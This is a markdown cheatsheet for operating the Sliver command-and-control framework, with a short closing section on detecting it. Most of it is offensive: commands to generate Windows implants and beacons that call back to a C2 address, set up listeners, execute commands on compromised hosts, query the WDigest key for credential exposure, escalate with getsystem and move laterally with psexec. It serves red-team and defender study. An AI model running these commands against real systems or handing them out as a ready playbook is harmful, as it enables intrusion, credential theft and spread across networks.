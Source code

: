 # Sliver Cheatsheet

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
// Depending on install
// Sometime not ideal... issues..
sudo sliver
sudo su - ; /root/sliver-server

// Display help
help <command>

// For multi-client
multiplayer 
new-operator
// Connect with Client

// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows --save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls -L <lhost> -l <lport> 
wg
https
http
dns
// Jobs to view and manage listners
jobs
jobs -k <job number>
jobs -K <kill all jobs> // -F for force
// Beacons
// Show all beacons, information and checkin time
beacons 
// Show all bbeacno tasks - task are FIFO
tasks
// Drop down to select with arrow keys
use 
// Interact with sessions
use <id >// Create an interactive sessions
// Inrteract with a session
session -i $id
// CReate interactive session from beacon and wait
interactive
execute -o <command>
execute -o icacls "c:\Windows\Temp"
// reg query the WDIGEST
execute -o reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential

// Armory
// Within a sessions run a armory package eg:
seatbelt -h
sharpup audit

// Shell
Shell // Comes with an OPSec warning by default for good reason
// Exit shell, be patient wait 30 seconds
exit

// With Administrative and adble to get SeDebugPrivilege - by default uses spool.svc to getsystem 
getsystem

// psexec is embedded into sliver good for lateral movement
psexec --profile BEACON <hostname>
```

Armory
```go
// Because why not
armory install all 
```

Shellcode generation
```go
// Disable shikata ga nai
-f shellcode -G
```

## Detecting Sliver

Sliver beacon detection:
```powershell 
# Requires Sysmon2
# look for default nomanclature, but this is easily customised -save /path/name.exe
WORD_WORD.exe 

powershell.exe -NoExit -Command[Console]::OutputEncoding=[Text:UTF8Encoding]:UTF8
# by default uses spool.svc to getsystem 
spool.svc
```

`Cyberchef` -> `Regular Expresssion -> Regex: Sliver`  then upload file that you suspect is a Sliver binary. Make sure you set the recipe first or you will crash your browser.

```json
// Language MUST BE: lucene
event.code:8 AND winlog.event_data.TargetImage:(*spoolsv*) AND winlog.event_data.TargetUser:(*
NT* AND *AUTHORITY\\SYSTEM*)
```
## References

[Official Armory](https://github.com/BishopFox/sliver/wiki/Armory#the-official-armory)
[dominicbreuker - Stagers](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)
[Really Good Cyber attack & defense video](https://www.youtube.com/watch?v=izMMmOaLn9g) , 